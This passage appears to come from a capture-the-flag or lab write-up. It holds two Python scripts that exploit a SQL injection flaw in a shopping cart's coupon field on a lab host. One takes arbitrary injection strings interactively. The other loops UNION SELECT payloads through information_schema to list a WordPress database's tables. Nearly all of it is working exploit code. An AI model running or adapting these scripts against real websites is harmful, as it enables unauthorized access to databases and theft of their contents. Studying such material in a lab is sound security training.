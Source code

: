 ```python
    try:
        sqli_data = {
            'coupon_code': sqli,
            'apply_coupon': 'Apply Coupon'
        }

        r = requests.post(sqli_url, data=sqli_data)

        response = re.findall(r'<div align="center"><tr><td style="width:200px">(.*?)</div>', r.text)[0]
        cprint("\n\t[+] " + response, 'white')
    except Exception as e:
        print(str(e))


if __name__ == '__main__':
    while True:
        sqli = input("\n[?] Enter sqli: ").strip('\n')
        make_request(sqli)

```


### Enum-wordpress-tables

```python
#!/usr/bin/python3
#coding: utf-8

import re
import sys
import signal
import requests

sqli_url = "http://10.10.201.142/it-next/it_cart.php"

def def_handler(sig, frame):
    print("\n[!] Exiting...")
    sys.exit(1)

#CTRL + C
signal.signal(signal.SIGINT, def_handler)


def make_request():
    try:
        print("\n[!] Tables:\n")
        for number in range (0,12):
            payload = "' UNION SELECT table_name, 2,3 from information_schema.tables where table_schema='wordpress' limit {},1-- -".format(number)
            sqli_data = {
                'coupon_code': payload,
                'apply_coupon': 'Apply Coupon'
            }

            r = requests.post(sqli_url, data=sqli_data)

            response = re.findall(r'<div align="center"><tr><td style="width:200px">Coupon Code : </td>(.*?) With ID', r.text)[0]
            print("\t[+] "+ response)
    except Exception as e:
        print(str(e))


```